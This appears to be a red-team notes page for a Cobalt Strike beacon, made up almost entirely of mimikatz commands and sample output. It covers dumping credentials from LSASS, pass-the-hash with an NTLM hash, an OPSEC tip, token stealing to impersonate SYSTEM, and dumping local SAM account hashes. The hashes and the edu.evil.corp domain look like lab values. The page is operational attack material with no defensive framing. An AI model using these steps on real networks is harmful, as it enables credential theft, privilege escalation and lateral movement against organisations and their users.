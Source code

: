 ``````beacon
 aes256_hmac       a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
 rc4_hmac_nt       4ffd3eabdce2e158d923ddec72de979e
 rc4_hmac_old      4ffd3eabdce2e158d923ddec72de979e
 rc4_md4           4ffd3eabdce2e158d923ddec72de979e
 rc4_hmac_nt_exp   4ffd3eabdce2e158d923ddec72de979e
 rc4_hmac_old_exp  4ffd3eabdce2e158d923ddec72de979e
``````

## [[LSASS dumping]]
``````
beacon> mimikatz sekurlsa::logonpasswords
``````

## [[Pass-the-Hash]]
#OPSEC this to specify the programm and avoid the weird piping into cmd.exe
## Recommended
``````beacon
beacon> mimikatz sekurlsa::pth /user:doe /domain:edu.evil.corp /ntlm:4ffd3eabdce2e158d923ddec72de979e

user    : doe
domain    : edu.evil.corp
program    : cmd.exe
impers.    : no
NTLM    : 4ffd3eabdce2e158d923ddec72de979e
  |  PID  6284
  |  TID  6288
  
beacon> steal_token 6284
[+] Impersonated NT AUTHORITY\SYSTEM
``````

## [[Security Account Manager]]
``````
beacon> mimikatz lsadump::sam

Domain : SRV1
SysKey : 5d11b46a92921b8775ca574306ba5355
Local SID : S-1-5-21-4124990477-354564332-720757739

SAMKey : fb5c3670b47e5ecae21f328b12d3103c

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 12a427a6fdf69be4917d30afc633f6fd

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount
``````
